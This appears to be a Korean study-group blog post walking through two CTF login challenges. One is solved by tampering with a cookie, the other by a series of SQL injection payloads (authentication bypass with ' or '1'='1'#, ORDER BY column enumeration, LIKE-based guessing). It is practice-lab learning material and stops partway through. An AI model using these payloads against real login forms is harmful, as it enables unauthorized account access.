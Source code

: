 ```yaml
---
layout: post
comments: true
sitemap:
    changefreq: daily
    priority: 0.5

title: "[CTF] CTF 문제 풀이: SQL Injection"
excerpt: "모의해킹 취업반 스터디 7기 6주차"

date: 2024-11-26
last_modified_at: 

tags: [TIL, WEB, DATABASE, CTF]
---
```


# Login Bypass 5
1. 
id: doldol
pw: dol1234
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-7.png?raw=true)
response에서 Set-Cookie: loginUser = doldol이 보인다
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-8.png?raw=true)
2. response를 탈취해서 loginUser를 normaltic5로 변경하겠다
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-9.png?raw=true)

# Secret Login
1. 
id: doldol
pw: dol1234
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-3.png?raw=true)
-> login.php과 logout.php에서 302 응답 코드가 보인다.
-> 다른 페이지로 이동시켜준다는 뜻
2. 
id: doldol' and '1' ='1
pw: dol1234
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-4.png?raw=true)
-> sql injection이 가능하다
-> 괄호 X
3. 
id: doldol'#
pw: dol1234
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-4.png?raw=true)
-> 주석 처리 가능
4. 
id: doldol'#
pw: asdf
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-4.png?raw=true)
-> 식별과 인증 동시에 하는 듯
sql: select id, pw from table where id = 'id' and pw = 'pw'
5. 
id: ' or '1' = '1'#
pw: asdf
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-5.png?raw=true)
-> ' or '1' = '1'#이렇게 하면 모든 row를 다 챙겨오는 데 하나 밖에 안 보여지다보니 가장 첫 번째 row만 보여지는 듯
6. 
id: login_acc' #
pw: asdf
-> X
-> 왜 안 되지?
-> 표시되는 게 아이디가 아니라 이름인 건가?
7. 
id: login_acc' or '1' = '1' #
pw: asdf
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-5.png?raw=true)
8. 
id: ' or '1' = '1' order by 1, 2, 3 #
pw: asdf
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-5.png?raw=true)
-> 아이디, 패스워드, 사용자 이름이 있다고 가정하고 시작
... 하나씩 늘려보는 중 ...
8. 
id: ' or '1' = '1' order by 1, 2, 3, 4, 5, 6, 7 #
pw: asdf
-> x
-> column이 6개인 걸 보면 표시되는 게 아이디가 아니라 이름일 가능성이 높네
-> admin의 row를 어떻게 가져올 수 있을까?
9. 
SELECT [UserId], [Password] FROM [table] WHERE [UserId] = '___' AND [Password] = '___'
column을 UserName일 것이라 추측해봄
id: ' or '1' = '1' AND UserName = 'login_acc' #
pw: asdf
-> X
10. 
id: ' or '1' = '1' AND Username = 'login_acc' #
pw: asdf
-> X
11. 
id: ' or '1' = '1' AND username = 'login_acc' #
pw: asdf
-> X
12. 
id: ' or '1' = '1' AND user_name = 'login_acc' #
pw: asdf
-> X
13. 
id: ' or '1' = '1' AND user-name = 'login_acc' #
pw: asdf
-> X
14. 
id: ' or '1' = '1' AND name = 'login_acc' #
pw: asdf
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-5.png?raw=true)
-> 표시되는 게 유저명인 게 확실해졌고
-> column이 name이라는 것도 확인했다
-> 그렇지만 admin은 아니라는 거
-> 혹시 name에 like를 집어넣으면? flag의 경우에는 {}가 들어가니까 이걸 검색하는 걸로
15. 
SELECT * FROM [table] WHERE [UserId] = '___' or '1' = '1' AND name like '%}' #[Password] = '___'
id: ' or '1' = '1' and name like '%}' #
pw: asdf
-> X
-> 어딘가 문법이 틀렸나
16. 
id: ' or name like '%}' #
pw: asdf
-> x
17. 
id: ' or name like '%a%' #
pw: asdf
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-5.png?raw=true)
18. 
id: ' or name like '%e%' #
pw: asdf
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-6.png?raw=true)